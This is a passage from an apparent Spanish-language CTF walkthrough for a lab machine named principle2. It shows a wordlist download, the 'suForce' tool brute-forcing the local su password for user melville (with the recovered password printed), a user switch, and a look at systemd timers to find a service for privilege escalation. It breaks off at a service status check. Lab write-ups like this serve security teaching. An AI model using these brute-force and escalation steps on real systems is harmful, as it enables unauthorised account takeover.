 ```bash

hex                 100%[===================>]  32.26K  --.-KB/s    in 0s      

2023-12-25 17:05:22 (89.8 MB/s) - ‘hex’ saved [33033/33033]
```
Ejecutamos la herramienta

```bash 
hermanubis@principle2:/tmp$ ./suForce -u melville -w hex 
            _____                        
 ___ _   _ |  ___|__  _ __ ___ ___   
/ __| | | || |_ / _ \| '__/ __/ _ \ 
\__ \ |_| ||  _| (_) | | | (_|  __/  
|___/\__,_||_|  \___/|_|  \___\___|  
-=================================-                                   
[*] Username: melville
[*] Wordlist: hex
[i] Status
    56/1001/5%/1bd5528b6def9812acba8eb21562c3ec                              
[+] Password: 1bd5528b6def9812acba8eb21562c3ec Line: 56
-=================================-

```
Teniendo la contraseña nos movemos a melville
```bash
hermanubis@principle2:/tmp$ su melville
Password: 
root is watching you, it has a record of all your steps:

melville@principle2:/tmp$ 
```
Verificando los timers en el sistema vemos que hay uno que se acaba de ejecutar hace 10s es cual es `activity.timer`.
```bash
melville@principle2:/tmp$ systemctl list-timers 
NEXT                        LEFT          LAST                        PASSED             UNIT                         ACTIVATES     >
Mon 2023-12-25 17:11:58 GMT 1min 49s left Mon 2023-12-25 17:09:58 GMT 10s ago            activity.timer               activity.servi>
Mon 2023-12-25 17:39:00 GMT 28min left    Mon 2023-12-25 17:09:08 GMT 1min 0s ago        phpsessionclean.timer        phpsessionclea>
Mon 2023-12-25 18:01:06 GMT 50min left    Mon 2023-11-27 14:57:51 GMT 4 weeks 0 days ago fstrim.timer                 fstrim.service
Mon 2023-12-25 21:18:17 GMT 4h 8min left  Tue 2023-11-28 23:24:05 GMT 3 weeks 5 days ago apt-daily.timer              apt-daily.serv>
Tue 2023-12-26 00:00:00 GMT 6h left       -                           -                  dpkg-db-backup.timer         dpkg-db-backup>
Tue 2023-12-26 00:00:00 GMT 6h left       Mon 2023-12-25 16:41:23 GMT 28min ago          logrotate.timer              logrotate.serv>
Tue 2023-12-26 04:11:06 GMT 11h left      Mon 2023-11-27 20:21:23 GMT 3 weeks 6 days ago man-db.timer                 man-db.service
Tue 2023-12-26 06:55:15 GMT 13h left      Mon 2023-12-25 16:46:48 GMT 23min ago          apt-daily-upgrade.timer      apt-daily-upgr>
Tue 2023-12-26 16:56:28 GMT 23h left      Mon 2023-12-25 16:56:28 GMT 13min ago          systemd-tmpfiles-clean.timer systemd-tmpfil>
Sun 2023-12-31 03:10:04 GMT 5 days left   Mon 2023-12-25 16:42:08 GMT 28min ago          e2scrub_all.timer            e2scrub_all.se>

10 timers listed.
Pass --all to see loaded but inactive timers, too.
```
Realizamos un status al servicio activity.service para ver que esta ejecutando.
```bash

melville@principle2:/tmp$ systemctl status activity.service 
```